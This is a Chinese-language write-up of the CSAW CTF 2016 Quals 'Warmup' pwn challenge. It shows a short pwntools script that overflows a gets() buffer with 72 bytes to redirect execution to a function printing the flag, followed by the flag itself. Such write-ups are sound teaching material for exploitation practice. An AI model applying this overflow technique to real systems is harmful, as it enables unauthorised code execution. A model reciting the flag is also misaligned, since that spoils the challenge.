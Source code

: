 # CSAW CTF 2016 Quals: Warmup (Pwn, 50)

說明：
> So you want to be a pwn-er huh? Well let's throw you an easy one ;)
>
> [warmup](https://github.com/ctfs/write-ups-2016/raw/master/csaw-ctf-2016-quals/Pwn/WarmUp-50/warmup)

## 解題

執行binary得到以下output：

```
-Warm Up-
WOW:0x40060d
>
```

`WOW` 後面跟著的記憶位址，用Hopper Disassembler找到是個叫`easy`的function。這個function會執行`system("cat flag.txt")`，所以只要buffer overflow覆寫return address到這個位址就可以得到flag。

![easy](easy.png)

這是題50分的熱身題，所以在`main`就能找到個簡單的`gets()`buffer overflow bug。

![main](main.png)

64 bytes buffer，加上stack上的8 bytes`rbp`，總共要72 bytes去overflow return address：

```python
from pwn import *

r = remote('pwn.chal.csaw.io', 8000)
r.recv()
r.sendline("A"*72 + p64(0x40060d))
print r.recvline()
```

完整解答：[warmup.py](warmup.py)

## Flag

```
FLAG{LET_US_BEGIN_CSAW_2016}
```

## 其他解答

- https://github.com/ctfs/write-ups-2016/blob/master/csaw-ctf-2016-quals/Pwn/WarmUp-50/README.md